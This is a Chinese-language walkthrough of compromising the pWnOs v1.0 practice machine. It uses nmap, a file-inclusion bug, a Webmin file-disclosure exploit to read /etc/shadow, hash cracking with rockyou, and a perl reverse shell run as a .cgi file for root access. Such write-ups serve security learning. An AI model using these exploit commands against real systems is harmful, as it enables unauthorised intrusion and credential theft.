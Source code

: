 # pWnOs_v1.0（√）

## nmap扫描  

```
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 4.6p1 Debian 5build1 (protocol 2.0)
| ssh-hostkey: 
|   1024 e4:46:40:bf:e6:29:ac:c6:00:e2:b2:a3:e1:50:90:3c (DSA)
|_  2048 10:cc:35:45:8e:f2:7a:a1:cc:db:a0:e8:bf:c7:73:3d (RSA)
80/tcp    open  http        Apache httpd 2.2.4 ((Ubuntu) PHP/5.2.3-1ubuntu6)
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.4 (Ubuntu) PHP/5.2.3-1ubuntu6
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: MSHOME)
445/tcp   open            Samba smbd 3.0.26a (workgroup: MSHOME)
10000/tcp open  http        MiniServ 0.01 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
MAC Address: 00:0C:29:5E:18:C9 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.26a)
|   Computer name: ubuntuvm
|   NetBIOS computer name: 
|   Domain name: nsdlab
|   FQDN: ubuntuvm.NSDLAB
|_  System time: 2024-03-07T05:03:26-06:00
|_nbstat: NetBIOS name: UBUNTUVM, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
|_clock-skew: mean: 3h00m00s, deviation: 4h14m34s, median: 0s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.69 seconds

```

## 目录扫描
![](img/2024-03-07-19-18-11.png)
![](img/2024-03-07-20-43-17.png)


## web渗透  

![](img/2024-03-07-19-07-51.png)
一点进来发现这个参数试着sql注入，根据warning发现这个是文件包含  
![](img/2024-03-07-19-09-23.png)  
```
vmware:x:1000:1000:vmware,,,:/home/vmware:/bin/bash
obama:x:1001:1001::/home/obama:/bin/bash
osama:x:1002:1002::/home/osama:/bin/bash
yomama:x:1003:1003::/home/yomama:/bin/bash
```
1000端口是个webmin cms  
![](img/2024-03-07-19-13-21.png)  
/php目录有一个phpmyadmin，但是需要账号密码，然后发现了css漏洞，暂时没什么用  
![](img/2024-03-07-20-05-16.png)  
//就在我没有思路的时候，才开始看视频  
![](img/2024-03-07-20-33-47.png)  
webmin利用这个漏洞，英文的意思是任意文件泄露，因为我之前找了很久都没有找到webmin的版本号，这么多exp自然不知道利用哪个，但视频里直接根据exp描述而去尝试这些exp  
然后利用pl文件成功读取到/etc/passwd文件，同时利用webmin还能读取shadow文件  
```
perl 2017.pl 192.168.25.116 10000 /etc/shadow 0
```
![](img/2024-03-07-20-38-54.png)  
然后使用rockyou.txt破解这些hash，一个小技巧，靶机中的密码基本上会出现在rockyou.txt中，结果只有一个  
![](img/2024-03-07-20-53-21.png)  

## 获得初始shell

ssh连接尝试，提示报错，然后我们使用-o然后tab键查看需要的参数  
![](img/2024-03-07-20-58-53.png)  
![](img/2024-03-07-21-00-11.png)  

## 提权  

suid发现mtr，但其只是能读取文件  
![](img/2024-03-07-21-07-50.png)  
linux版本 2.6.22  
![](img/2024-03-07-21-11-53.png)  
通常内核漏洞提权最后考虑  
在我们之前通过webmin访问shadow文件时我们应该知道，webmin用户可能有特殊权限  
![](img/2024-03-07-21-23-58.png)  
这个时候我们需要反弹webmin shell  
```
cp /usr/share/webshells/perl/perl-reverse-shell.pl shell.cgi
```
这里将反弹shell脚本改成cgi后缀，然后使用perl执行  
```
perl 2017.pl 192.168.25.116 10000 /tmp/shell.cgi 0
```
之所以改成cgi后缀，是因为webmin是perl搭建的web程序，解释器只能解释cgi文件，如果上传pl后缀文件则不能收到反弹shell，监听即可获得root shell  
![](img/2024-03-07-21-39-43.png)

## 总结  

+ web页面很容易发现了第一个lfi
+ webmin的exp利用没能想到，因为不知道版本号就不知道该用哪一个
+ 虽然楼上lfi，但是权限不同，以致可以访问shadow
+ 因为webmin的特殊权限，所以提权也应该想到这里
+ perl执行cgi文件也是初次了解到